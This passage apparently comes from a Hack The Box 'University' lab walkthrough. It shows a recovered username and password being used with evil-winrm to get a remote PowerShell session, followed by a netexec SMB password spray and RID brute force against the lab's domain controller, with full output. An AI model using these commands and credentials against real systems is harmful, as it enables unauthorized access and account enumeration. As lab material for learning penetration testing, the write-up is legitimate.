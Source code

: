 | Username | Password  |
| -------- | --------- |
| WAO      | WebAO1337 |

Even if the `password` was "only" for `WAO` it gave us at least access via `WinRM`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.153.87 -u 'WAO' -p 'WebAO1337'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\WAO\Documents>
```

## RID Brute Forcing

With the `password` of `WAO` we were able to read `IPC$` which we instantly used to `brute force` the `Relative Identifiers (RID)`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec smb 10.129.153.87 -u usernames.txt -p passwords.txt --rid-brute
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [-] university.htb\george:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol helgen:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nour:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nour Qasso:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin.rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nya:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya Laracrof:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven.U:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven Universe:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Choco.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\John.D:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya.R:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Rose.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [+] university.htb\WAO:WebAO1337 
SMB         10.129.153.87   445    DC               498: UNIVERSITY\Enterprise Read-only Domain Controllers (SidTypeGroup)
```